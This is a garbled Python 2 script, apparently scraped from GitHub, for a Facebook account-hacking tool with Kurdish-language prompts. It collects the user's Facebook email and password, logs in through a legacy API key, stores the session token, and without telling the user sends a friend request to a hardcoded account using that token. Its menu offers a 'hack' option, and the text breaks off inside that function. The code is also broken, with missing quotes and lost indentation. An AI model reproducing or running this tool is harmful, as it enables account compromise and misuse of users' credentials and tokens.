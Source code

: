 # pashay_IT.py
Normul N Kresut: RawBlame  #!/usr/normul /python2 #coding=utf-8   import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize from multiprocessing.pool import ThreadPool from requests.exceptions import ConnectionError from mechanize import Browser   reload(sys) sys.setdefaultencoding('utf8') br = mechanize.Browser() br.set_handle_robots(False) br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1) br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]   def keluar(): print "\033[1;96m[!] \x1b[1;91mGaranawa" os.sys.exit()   def acak(b):     w = 'ahtdzjc'     d = ''     for i in x:         d += '!'+w[random.randint(0,len(w)-1)]+i     return cetak(d)   def cetak(b):     w = 'ahtdzjc'     for i in w:         j = w.index(i)         x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))     x += '\033[0m'     x = x.replace('!0','\033[0m')     sys.stdout.write(x+'\n')   def jalan(z): for e in z + '\n': sys.stdout.write(e) sys.stdout.flush() time.sleep(00000.1)   #### LOGO #### logo = """ ▇◤▔▔▔▔▔▔▔◥▇ ▇▏◥▇◣┊◢▇◤▕▇ ▇▏▃▆▅▎▅▆▃▕▇ ▇▏╱▔▕▎▔▔╲▕▇ ▇◣◣▃▅▎▅▃◢◢▇ ▇▇◣◥▅▅▅◤◢▇▇ ▇▇▇◣╲▇╱◢▇▇▇ ▇▇▇▇◣▇◢▇▇▇▇                                                                                               \033[0;39m╔▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬╗ \033[0;39m║\033[1;36m* \033[0;36mTelegram \033[1;36m: \033[1;36m@ShadowKU\033[0;31m                      ║ \033[0;39m║\033[1;33m* \033[0;33mGitHub  \033[1;33m : \033[1;33m\033[4mhttps://Github.com/ShadowKU\033[0m \033[0;31m   ║ \033[0;39m║\033[1;36m* \033[0;31mYoutube \033[1;31m : \033[1;31mVertex\033[0;31m                         ║ \033[0;34m╚▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬╝"""  def tik(): titik = ['.   ','..  ','... '] for o in titik: print("\r\033[1;96m[●] \x1b[1;93mLogging In \x1b[1;97m"+o),;sys.stdout.flush();time.sleep(1)   back = 0 berhasil = [] cekpoint = [] oks = [] id = [] listgrup = [] vulnot = "\033[31mbardast nya" vuln = "\033[32mbardasta"  os.system("clear") print "\x1b[1;31m⚔═══════════════════════════☠\x1b[1;93m═══════════════════════════⚔" print  """\x1b[0;31m  \033[1;96m            \x1b[1;93m[¤] \033[0;96mTelegram : \033[1;96m@ShadowKU\x1b[1;96m   \033[1;93m \x1b[1;96m               \x1b[1;93m[¤] \x1b[0;31mYoutube : \x1b[1;31mVertex\x1b[1;96m   \033[1;93m \x1b[1;96m       \x1b[1;93m[¤] \x1b[1;31m⚠ barprsyar nem la hech keshayak ⚠\x1b[0;31m""" print " \x1b[1;93m⚔══════════════════════════☠\x1b[1;31m═══════════════════════════⚔  CorrectUsername = "pashay" CorrectPassword = "it"  loop = 'true' while (loop == 'true'):     username = raw_input("\033[1;96m[\x1b[1;93m☆\x1b[1;96m] \x1b[1;31mUsernamey Toolaka \x1b[1;93m>\x1b[1;96m>\x1b[1;93m>\x1b[1;96m>\033[1;35;40m ")     if (username == CorrectUsername):     password = raw_input("\033[1;96m[\x1b[1;93m☆\x1b[1;96m] \x1b[1;31mPassworde Toolaka \x1b[1;93m>\x1b[1;96m>\x1b[1;93m>\x1b[1;96m>\033[1;35;40m ")         if (password == CorrectPassword):             print "Tawawa ✅" + username             loop = 'false'         else:             print "Passwordaka Halaya"             os.system('xdg-open https://t.me/pashay_IT     else:         print "Usarnameaka Halaya"         os.system('xdg-open https://t.me/pashay_IT  def login(): os.system('clear') try: toket = open('login.txt','r') menu()  except (KeyError,IOError): os.system('clear') print logo print 42*"\033[1;96m=" print('\033[1;96m[☆] \x1b[1;91mFacebookek Daxel Bka \x1b[1;96m[☆]' ) id = raw_input('\033[1;96m[+] \x1b[0;34mID/Email \x1b[1;91m: \x1b[1;92m') pwd = raw_input('\033[1;96m[+] \x1b[0;34mPassword \x1b[1;91m: \x1b[1;92m') tik() try: br.open('https://m.facebook.com') except mechanize.URLError: print"\n\033[1;96m[!] \x1b[1;91mEmail Yan Passwordakat Halaya" keluar() br._factory.is_html = True br.select_form(nr=0) br.form['email'] = id br.form['pass'] = pwd br.submit() url = br.geturl() if 'save-device' in url: try: sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpasswor  d='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32' data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"} x=hashlib.new("md5") x.update(sig) a=x.hexdigest() data.update({'sig':a}) url = "https://api.facebook.com/restserver.php" r=requests.get(url,params=data) z=json.loads(r.text) unikers = open("login.txt", 'w') unikers.write(z['access_token']) unikers.close() print '\n\x1b[1;36;40m[✓] Chuyta Naw Accountaka ...' os.system('xdg-open https://t.me/shadowshopku') requests.post('https://graph.facebook.com/me/friends?method=post&amp;uids=gwimusa3&amp;access_token='+z['access_token']) menu() except requests.exceptions.ConnectionError: print"\n\x1b[1;91m[!] Hele Internett Nya" keluar() if 'checkpoint' in url: print("\n\x1b[1;92m[!] Accountakat La Checkpointa") os.system('rm -rf login.txt') time.sleep(1) keluar() else: print("\n\x1b[1;93mEmail Yan Password Yakeke Hallaya") os.system('rm -rf login.txt') time.sleep(1) login()   def menu(): os.system('clear') try: toket=open('login.txt','r').read() except IOError: os.system('clear') print"\x1b[1;91m[!] Tokenakat Tawaw Nya" os.system('rm -rf login.txt') time.sleep(1) login() try: otw = requests.get('https://graph.facebook.com/me?access_token='+toket) a = json.loads(otw.text) nama = a['name'] id = a['id'] ots = requests.get('https://graph.facebook.com/me/subscribers?access_token=' + toket) b = json.loads(ots.text) sub = str(b['summary']['total_count']) except KeyError: os.system('clear') print"\033[1;91mAccountakat La Checkpointa" os.system('rm -rf login.txt') time.sleep(1) login() except requests.exceptions.ConnectionError: print"\x1b[1;92mHelle Internet Karanya" keluar() os.system("clear") print logo print "   \033[1;36;40m      ╔═════════════════════════════════╗" print "   \033[1;36;40m      ║\033[1;32;40m[*] Nawe Xot\033[1;32;40m: "+nama+"     \033[1;36;40m║"                                print "   \033[1;36;40m      ║\033[1;34;40m[*] IDyakat  \033[1;34;40m: "+id+"   \033[1;36;40m║" print "   \033[1;36;40m      ║\033[1;34;40m[*] Subs\033[1;34;40m: "+sub+"                      \033[1;36;40m║" print "   \033[1;36;40m      ╚═════════════════════════════════╝" print "\033[1;32;40m[1] \033[1;33;40m══> Hack Krdn" print "\033[1;32;40m[2] \033[1;33;40m══> Update Krdne Toolaka" print "\033[1;32;40m[0] \033[1;33;40m══> Daxstne Accountakat" pilih()  def pilih(): unikers = raw_input("\n\033[1;31;40m>>> \033[1;35;40m") if unikers =="": print "\x1b[1;91mZhmarayakt Hallnabzharduwa" pilih() elif unikers =="1": super() elif unikers =="2": os.system('clear') print logo print " \033[1;36;40m●════════════════════════◄►════════════════════════●\n" os.system('git pull origin master') raw_input('\n\x1b[1;91m[ \x1b[1;97mGaranawa \x1b[1;91m]') menu() elif unikers =="0": jalan('Accountakat Daxra') os.system('rm -rf login.txt') keluar() else: print "\x1b[1;91mZhmarayakt Hallnabzharduwa" pilih()  def super(): global toket os.system('clear') try: toket=open('login.txt','r').read() except IOError: print"\x1b[1;91mTokenakat Tawaw Nya" os.system('rm -rf login.txt') time

